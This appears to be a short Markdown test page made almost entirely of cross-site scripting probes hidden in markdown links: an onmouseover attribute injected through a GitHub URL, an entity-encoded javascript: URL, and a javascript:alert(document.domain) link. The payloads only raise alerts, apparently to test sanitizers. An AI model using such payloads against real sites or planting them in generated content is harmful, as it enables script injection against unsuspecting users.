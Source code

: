 

[Schopath](https://github.com/"/onmouseover="alert(/schopath/)"/x="ZeroByte.ID)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[TEST](javascript:alert(document.domain))
